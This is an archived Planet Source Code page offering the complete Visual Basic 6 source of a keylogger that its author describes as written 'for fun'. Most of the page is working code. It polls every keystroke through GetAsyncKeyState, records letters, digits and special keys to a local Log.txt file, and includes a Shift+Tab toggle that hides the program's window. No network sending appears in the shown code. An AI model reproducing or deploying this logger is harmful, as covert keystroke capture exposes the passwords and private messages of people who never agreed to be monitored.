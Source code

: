 ﻿<div align="center">

## A Simple Key Logger

<img src="PIC20049152213133156.JPG">
</div>

### Description

This is a simple keylogger I wrote for fun. It records most keystrokes and saves the log to a file! It sometimes gets keystrokes mixed up but other than that it seems to work fine. Please comment on my code as this is the first project I've uploaded onto PSC. Any help/suggestions are appreciated!
 
### More Info
 
Needs a textbox on the form called txtLog.


<span>             |<span>
---                |---
**Submitted On**   |
**By**             |[Calvin Mayer](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByAuthor/calvin-mayer.md)
**Level**          |Intermediate
**User Rating**    |4.5 (18 globes from 4 users)
**Compatibility**  |VB 6\.0
**Category**       |[Internet/ HTML](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByCategory/internet-html__1-34.md)
**World**          |[Visual Basic](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByWorld/visual-basic.md)
**Archive File**   |[](https://github.com/Planet-Source-Code/calvin-mayer-a-simple-key-logger__1-56202/archive/master.zip)

### API Declarations

```
Private Declare Function GetAsyncKeyState Lib "user32" (ByVal vKey As Long) As Integer
```


### Source Code

```
'Copyright 2004 Calvin Mayer
'Press shift+tab to toggle it's visible property
Option Explicit
Private Declare Function GetAsyncKeyState Lib "user32" (ByVal vKey As Long) As Integer
Private Sub Form_Load()
txtLog.Text = ""
End Sub
Private Sub Timer1_Timer()
CheckForKeyPress
WriteToFile "\Log.txt"
End Sub
'The subroutine that checks for keystrokes. Probably inefficient but I don't know of any other method. (would a select case work here?)
Sub CheckForKeyPress()
 With txtLog
 If GetAsyncKeyState(vbKeyShift) Then
  If GetAsyncKeyState(vbKeyTab) Then
  Me.Visible = Not Me.Visible
  Else
  .Text = .Text + "{shift}"
  End If
 End If
 If GetAsyncKeyState(vbKeyTab) Then
  .Text = .Text + "{tab}"
 End If
 If GetAsyncKeyState(vbKeySpace) Then
  .Text = .Text + "{space}"
 End If
 If GetAsyncKeyState(vbKeyControl) Then
  .Text = .Text + "{ctrl}"
 End If
 If GetAsyncKeyState(vbKeyMenu) Then
  .Text = .Text + "{alt}"
 End If
 If GetAsyncKeyState(vbKey0) Then
  .Text = .Text + "0"
 End If
 If GetAsyncKeyState(vbKey1) Then
  .Text = .Text + "1"
 End If
 If GetAsyncKeyState(vbKey2) Then
  .Text = .Text + "2"
 End If
 If GetAsyncKeyState(vbKey3) Then
  .Text = .Text + "3"
 End If
 If GetAsyncKeyState(vbKey4) Then
  .Text = .Text + "4"
 End If
 If GetAsyncKeyState(vbKey5) Then
  .Text = .Text + "5"
 End If
 If GetAsyncKeyState(vbKey6) Then
  .Text = .Text + "6"
 End If
 If GetAsyncKeyState(vbKey7) Then
  .Text = .Text + "7"
 End If
 If GetAsyncKeyState(vbKey8) Then
  .Text = .Text + "8"
 End If
 If GetAsyncKeyState(vbKey9) Then
  .Text = .Text + "9"
 End If
 If GetAsyncKeyState(vbKeyA) Then
  .Text = .Text + "A"
 End If
 If GetAsyncKeyState(vbKeyB) Then
  .Text = .Text + "B"
 End If
 If GetAsyncKeyState(vbKeyC) Then
  .Text = .Text + "C"
 End If
 If GetAsyncKeyState(vbKeyD) Then
  .Text = .Text + "D"
 End If
 If GetAsyncKeyState(vbKeyE) Then
  .Text = .Text + "E"
 End If
 If GetAsyncKeyState(vbKeyF) Then
  .Text = .Text + "F"
 End If
 If GetAsyncKeyState(vbKeyG) Then
  .Text = .Text + "G"
 End If
 If GetAsyncKeyState(vbKeyH) Then
  .Text = .Text + "H"
 End If
 If GetAsyncKeyState(vbKeyI) Then
  .Text = .Text + "I"
 End If
 If GetAsyncKeyState(vbKeyJ) Then
  .Text = .Text + "J"
 End If
 If GetAsyncKeyState(vbKeyK) Then
  .Text = .Text + "K"
 End If
 If GetAsyncKeyState(vbKeyL) Then
  .Text = .Text + "L"
 End If
 If GetAsyncKeyState(vbKeyM) Then
  .Text = .Text + "M"
 End If
 If GetAsyncKeyState(vbKeyN) Then
  .Text = .Text + "N"
 End If
 If GetAsyncKeyState(vbKeyO) Then
  .Text = .Text + "O"
 End If
 If GetAsyncKeyState(vbKeyP) Then
  .Text = .Text + "P"
 End If
 If GetAsyncKeyState(vbKeyQ) Then
  .Text = .Text + "Q"
 End If
 If GetAsyncKeyState(vbKeyR) Then
  .Text = .Text + "R"
 End If
 If GetAsyncKeyState(vbKeyS) Then
  .Text = .Text + "S"
 End If
 If GetAsyncKeyState(vbKeyT) Then
  .Text = .Text + "T"
 End If
 If GetAsyncKeyState(vbKeyU) Then
  .Text = .Text + "U"
 End If
 If GetAsyncKeyState(vbKeyV) Then
  .Text = .Text + "V"
 End If
 If GetAsyncKeyState(vbKeyW) Then
  .Text = .Text + "W"
 End If
 If GetAsyncKeyState(vbKeyX) Then
  .Text = .Text + "X"
 End If
 If GetAsyncKeyState(vbKeyY) Then
  .Text = .Text + "Y"
 End If
 If GetAsyncKeyState(vbKeyZ) Then
  .Text = .Text + "Z"
 End If
 If GetAsyncKeyState(vbKeyDelete) Then
  .Text = .Text + "{delete}"
 End If
 If GetAsyncKeyState(vbKeyBack) Then
  .Text = .Text + "{BackSpace}"
 End If
 If GetAsyncKeyState(vbKeyPageDown) Then
  .Text = .Text + "{page down}"
 End If
 If GetAsyncKeyState(vbKeyPageUp) Then
  .Text = .Text + "{page up}"
 End If
 If GetAsyncKeyState(vbKeyAdd) Then
  .Text = .Text + "+"
 End If
 If GetAsyncKeyState(vbKeySubtract) Then
  .Text = .Text + "-"
 End If
 If GetAsyncKeyState(vbKeyDecimal) Then
  .Text = .Text + "."
 End If
 If GetAsyncKeyState(vbKeyReturn) Then
  .Text = .Text + "{enter}"
 End If
 End With
End Sub
'The subroutine that saves the log to a text file
Sub WriteToFile(fileName As String)
 Open App.Path & fileName For Output As #1
 Write #1, txtLog.Text
 Close #1
End Sub
```

